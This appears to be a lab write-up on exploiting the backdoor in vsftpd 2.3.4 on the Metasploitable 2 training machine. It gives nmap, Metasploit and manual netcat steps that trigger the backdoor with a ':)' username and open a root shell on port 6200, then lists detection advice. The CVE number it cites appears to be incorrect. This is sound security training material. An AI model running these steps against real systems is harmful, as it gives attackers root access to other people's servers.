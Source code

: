 # FTP (vsftpd 2.3.4) - Backdoor Exploit

### Service Summary

FTP (File Transfer Protocol) is a standard network protocol used to transfer files between a client and a server. On Metasploitable 2, FTP is running on port 21, powered by a vulnerable version of vsftpd (Very Secure FTP Daemon) 2.3.4.

### Vulnerability Overview

- **Name**: vsftpd 2.3.4
- **CVE**: CVE-2011-2532
- **Impact**: Unauthenticated Remote Code Execution (RCE) as root
- **Access Required**: None
- **Trigger**: FTP login with username ending in `:)`
- **Behavior**: Opens a shell on port 6200

```
This was not a logic flaw, but a malicious backdoor injected into the source code — it was planted to open a shell when a smiley face :) is passed as a username.
```

### Service Detection and Enumeration

Use `nmap` to identify the FTP service and version:

```bash
nmap -sV -v -p 21 <target-ip>
```

![Nmap FTP Service Scan](./FTP_Service_Nmap_Scan.png)

---

## Exploitation Steps (Metasploit)

Launch Metasploit

```
msfconsole
```

Search for the module for the corresponding vsftpd version

```
search vsftpd
```

Load the exploit module

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

Set options

```b
set RHOSTS <target_ip>
set RPORT 21
run
```

![Metasploit_FTP_Exploit_Result](./Metasploit_FTP_Exploit.png)

The shell spawned is a root-level shell with full access to the underlying system.


---

## Manual Testing

We can also take manual steps to exploit the vulnerability. Connect to the target machine using Netcat.

```bash
nc <target_ip> 21
```

Send:

```bash
USER test:)
PASS whatever
```

Then check if a shell has opened up on the target machine on port 6200

```bash
nc <target_ip> 6200
```

![Netcat_FTP_Exploit](./Netcat_FTP_Exploit.png)

---

## Results

- Successfully got a root shell on the system.
- No credential or post-exploitation privilge escalation required.
- Showcases how dangerous supply chain attacks can be (malicious source).

## Detection (Blue Team Perspective)

- Do not use vsftpd 2.3.4 — update to 2.3.5 or later.
- Alert on vsftpd 2.3.4 running in production environments.
- Restrict FTP access using firewalls or move to more secure alternatives (SFTP).
- Watch FTP logs for usernames containing `:)`.
- Monitor for abnormal port activity (e.g., 6200).

